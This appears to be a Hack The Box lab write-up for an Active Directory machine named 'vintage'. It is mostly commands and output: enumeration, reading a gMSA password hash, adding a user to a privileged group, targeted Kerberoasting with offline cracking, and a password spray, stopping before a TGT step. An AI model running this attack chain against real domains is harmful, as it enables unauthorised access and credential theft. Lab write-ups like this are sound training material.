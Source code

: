 ```yaml
---
title: vintage
published: 2025-03-08
description: ''
image: ''
tags: []
category: ''
draft: true 
lang: ''
---
```


**Difficulty** : Hard

# enumeration
```bash
sudo nmap -sC -sV  -oA vintage 10.10.11.45

Nmap scan report for 10.10.11.45
Host is up (0.098s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-12-25 19:14:58Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: vintage.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: vintage.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -1s
| smb2-time: 
|   date: 2024-12-25T19:15:08
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Dec 25 20:15:51 2024 -- 1 IP address (1 host up) scanned in 69.80 seconds

```

not so much ,just a typical AD setup

next, we use the given creds to enumerate the AD environment  

## AD enumeration
first lets test those creds
```bash
netexec smb vintage.htb -u 'P.Rosa' -p 'Rosaisbest123'

SMB         10.10.11.45     445    10.10.11.45      [*]  x64 (name:10.10.11.45) (domain:10.10.11.45) (signing:True) (SMBv1:False)
SMB         10.10.11.45     445    10.10.11.45      [-] 10.10.11.45\P.Rosa:Rosaisbest123 STATUS_NOT_SUPPORTED
```

we see the error `STATUS_NOT_SUPPORTED` which means the NTLM authentication is disabled, so we have to use kerberoas

```bash
netexec smb vintage.htb -u 'P.Rosa' -p 'Rosaisbest123' -k

SMB         vintage.htb     445    vintage          [*]  x64 (name:vintage) (domain:htb) (signing:True) (SMBv1:False)
SMB         vintage.htb     445    vintage          [-] htb\P.Rosa:Rosaisbest123 [Errno Connection error (HTB:88)] [Errno -2] Name or service not known
```

smb does not seems to like the kerberoas authentication, lets try with ldap

```bash
netexec ldap vintage.htb -u 'P.Rosa' -p 'Rosaisbest123' -k

LDAP        vintage.htb     389    dc01.vintage.htb [*]  x64 (name:dc01.vintage.htb) (domain:vintage.htb) (signing:True) (SMBv1:False)
LDAP        vintage.htb     389    dc01.vintage.htb [+] vintage.htb\P.Rosa:Rosaisbest123
```

nice this one worked

### BloodHound

taking into consideration NTLM auth is disabled
```bash
bloodhound-python --auth-method auto -u 'P.Rosa' -p 'Rosaisbest123' -d vintage.htb -c all -k -dc dc01.vintage.htb
``` 

zip all the json into a zip and open it in bloodhound-gui

our current user P.Rosa does not seems to have interesting rights
![](src/assets/vintage/Vintage_image_1.png)

so lets look for another starting point

![](src/assets/vintage/Vintage_image_2.png)

we see that both users `L.BIANCHI` and `C.NERI` can use winrm porotocl to connect to the DC
![](src/assets/vintage/Vintage_image_3.png)

`L.BIANCHI_ADM` is an admin account so probably we should take `L.BIANCHI` first then escalate to admin `L.BIANCHI_ADM` or take `C.NERI` first , just maybe

looking around we cant find anyway to take `C.NERI` or `L.BIANCHI

in the bloodhound-python  output before we noticed a computer named `FS01` lets look for it
![](src/assets/vintage/Vintage_image_4.png)

![](src/assets/vintage/Vintage_image_5.png)

![](src/assets/vintage/Vintage_image_6.png)

we can see that the `FS01` computer can read `GMSA01` password

#### now lets try to to get the GMSA01 password
since we dont have any creds lets try the most obvious one FS01

```bash
getTGT.py  -dc-ip 10.10.11.45 vintage.htb/FS01$:fs01


Impacket v0.11.0 - Copyright 2023 Fortra

[*] Saving ticket in FS01$.ccache
```


using bloodyAD to read the `msDS-ManagedPassword`

```bash
KRB5CCNAME=FS01\$.ccache bloodyAD --host dc01.vintage.htb -d "vintage.htb" --dc-ip 10.10.11.45 -k get object "GMSA01$" --attr msDS-ManagedPassword

distinguishedName: CN=gMSA01,CN=Managed Service Accounts,DC=vintage,DC=htb
msDS-ManagedPassword.NTLM: aad3b435b51404eeaad3b435b51404ee:a317f224b45046c1446372c4dc06ae53
msDS-ManagedPassword.B64ENCODED: rbqGzqVFdvxykdQOfIBbURV60BZIq0uuTGQhrt7I1TyP2RA/oEHtUj9GrQGAFahc5XjLHb9RimLD5YXWsF5OiNgZ5SeBM+WrdQIkQPsnm/wZa/GKMx+m6zYXNknGo8teRnCxCinuh22f0Hi6pwpoycKKBWtXin4n8WQXF7gDyGG6l23O9mrmJCFNlGyQ2+75Z1C6DD0jp29nn6WoDq3nhWhv9BdZRkQ7nOkxDU0bFOOKYnSXWMM7SkaXA9S3TQPz86bV9BwYmB/6EfGJd2eHp5wijyIFG4/A+n7iHBfVFcZDN3LhvTKcnnBy5nihhtrMsYh2UMSSN9KEAVQBOAw12g==
```

#### From GMSA01 user
enumerating GMSA01 rights
![](src/assets/vintage/Vintage_image_7.png)

GMSA01 have rights to add users to the `SERVICEMANAGERS` group

`SERVICEMANAGERS` have genericALL rights on the service accounts

![](src/assets/vintage/Vintage_image_8.png)

so we can either do Kerberoas attack or change their passwords

#### taking the services accouts
##### first lets add P.Rosa to the `SERVICEMANAGERS`

```bash
KRB5CCNAME=gmsa01$.ccache bloodyAD -d vintage.htb -k --host dc01.vintage.htb add groupMember SERVICEMANAGERS P.Rosa

[+] P.Rosa added to SERVICEMANAGERS
```

now since `P.Rosa` is a member of this group she can do targetedkerberoas or change passwords, but looking at the users who can either use winRM or mssql we see that none of those service users have those rights, so changing their passwords is useless also those users have no OUTBOUND rights

so the plan here it to do targetedKerberoasting and get some passwords to do password spraying with them and see if we have password reuse



```bash
RB5CCNAME=P.Rosa.ccache python targetedKerberoast/targetedKerberoast.py -v -d 'vintage.htb' --dc-host dc01.vintage.htb -k  --no-pass

```

we get Tickets of all three users trying to crack them with john gives us only 1 valid password for svc_sql account

```bash
john --wordlist=rockyou.txt svc_sql_ticket
```

found password: `Zer0the0ne`

now lets do password spraying hunting for reused passwords


```bash
kerbrute passwordspray -d vintage.htb --dc 10.10.11.45 usernames.txt Zer0the0ne -v


    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 12/27/24 - Ronnie Flathers @ropnop

2024/12/27 11:54:55 >  Using KDC(s):
2024/12/27 11:54:55 >  	10.10.11.45:88

2024/12/27 11:54:55 >  [!] Guest@vintage.htb:Zer0the0ne - USER LOCKED OUT
2024/12/27 11:54:55 >  [!] krbtgt@vintage.htb:Zer0the0ne - USER LOCKED OUT
2024/12/27 11:54:55 >  [!] G.Viola@vintage.htb:Zer0the0ne - Invalid password
2024/12/27 11:54:55 >  [!] DC01$@vintage.htb:Zer0the0ne - Invalid password
2024/12/27 11:54:55 >  [!] gMSA01$@vintage.htb:Zer0the0ne - Invalid password
2024/12/27 11:54:55 >  [!] Administrator@vintage.htb:Zer0the0ne - Invalid password
2024/12/27 11:54:55 >  [!] R.Verdi@vintage.htb:Zer0the0ne - Invalid password
2024/12/27 11:54:55 >  [!] FS01$@vintage.htb:Zer0the0ne - Invalid password
2024/12/27 11:54:55 >  [!] M.Rossi@vintage.htb:Zer0the0ne - Invalid password
2024/12/27 11:54:55 >  [!] L.Bianchi@vintage.htb:Zer0the0ne - Invalid password
2024/12/27 11:54:55 >  [!] svc_sql@vintage.htb:Zer0the0ne - USER LOCKED OUT
2024/12/27 11:54:55 >  [!] P.Rosa@vintage.htb:Zer0the0ne - Invalid password
2024/12/27 11:54:55 >  [!] svc_ldap@vintage.htb:Zer0the0ne - Invalid password
2024/12/27 11:54:55 >  [!] svc_ark@vintage.htb:Zer0the0ne - Invalid password
2024/12/27 11:54:55 >  [!] L.Bianchi_adm@vintage.htb:Zer0the0ne - Invalid password
2024/12/27 11:54:55 >  [!] C.Neri_adm@vintage.htb:Zer0the0ne - Invalid password
2024/12/27 11:54:55 >  [+] VALID LOGIN:	 C.Neri@vintage.htb:Zer0the0ne

```

we find this creds: `C.Neri@vintage.htb:Zer0the0ne`
and since `C.Neri` have winRM rights lets try to connect to the DC with C.Neri

since we are working with kerberoas authentication and not NTLM, we need to generate a TGT

